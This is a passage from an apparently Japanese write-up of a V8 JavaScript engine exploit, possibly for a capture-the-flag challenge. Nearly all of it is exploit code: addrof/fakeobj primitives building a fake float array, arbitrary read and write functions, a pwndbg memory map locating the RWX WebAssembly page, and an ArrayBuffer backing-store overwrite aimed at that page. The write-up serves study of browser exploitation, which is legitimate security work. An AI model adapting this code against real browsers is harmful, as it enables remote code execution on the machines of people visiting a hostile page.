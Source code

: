 ```javascript
pwndbg> 
 */

// fake_arr[3]: length (0x10000000 as float64)
let fake_arr = [float_map, 10.10, 11.11, 1.2882297539194267e-231];
let fake_addr = addrof(fake_arr);

// array of float64
let aarw_arr = fakeobj(fake_addr - 0x30n + 0x10n);

function aar(addr) {
    fake_arr[2] = i2f(addr-0x10n);

    return f2i(aarw_arr[0]);
}

// worked only for address in v8 heap?
// not worked for RWX (SIGSEGV)
function aaw(addr, v) {
    fake_arr[2] = i2f(addr-0x10n);

    aarw_arr[0] = i2f(v);
}

/*
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0x4b5f3858000      0x4b5f3860000 rw-p     8000      0 [anon_4b5f3858]
     0x704561c0000      0x70456200000 rw-p    40000      0 [anon_704561c0]
     0xa0676791000      0xa06767c0000 ---p    2f000      0 [anon_a0676791]
     0xa06767c0000      0xa06767c1000 rw-p     1000      0 [anon_a06767c0]
     0xa06767c1000      0xa06767c2000 ---p     1000      0 [anon_a06767c1]
     0xa06767c2000      0xa06767e7000 r-xp    25000      0 [anon_a06767c2]
     0xa06767e7000      0xa06767ff000 ---p    18000      0 [anon_a06767e7]
     0xa06767ff000      0xa0676800000 ---p     1000      0 [anon_a06767ff]
     0xa0676800000      0xa0676801000 rw-p     1000      0 [anon_a0676800]
     0xa0676801000      0xa0676802000 ---p     1000      0 [anon_a0676801]
     0xa0676802000      0xa067683f000 r-xp    3d000      0 [anon_a0676802]
     0xa067683f000      0xa067e791000 ---p  7f52000      0 [anon_a067683f]
    0x1401b92c0000     0x1401b9300000 rw-p    40000      0 [anon_1401b92c0]
    0x18e08ca40000     0x18e08ca5e000 rw-p    1e000      0 [anon_18e08ca40]
    0x1a805d2c0000     0x1a805d300000 rw-p    40000      0 [anon_1a805d2c0]
    0x1d09c5500000     0x1d09c5540000 rw-p    40000      0 [anon_1d09c5500]
    0x261810a00000     0x261810a40000 r--p    40000      0 [anon_261810a00]
    0x2c2ad0140000     0x2c2ad0141000 rwxp     1000      0 [anon_2c2ad0140]  <- cake
*/

let wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);
let f = wasm_instance.exports.main;

let rwx_addr = aar(addrof(wasm_instance) + 0x88n);
hexPrint(rwx_addr)

let aaw_buf = new ArrayBuffer(0x400);
let dv = new DataView(aaw_buf);
let backing_store_addr = addrof(aaw_buf) + 0x20n;
aaw(backing_store_addr, rwx_addr)
```

[^1]: gdbで`p/f 0x11c27c950589`を実行した
[^2]: 実際には浮動小数点数に変換して代入する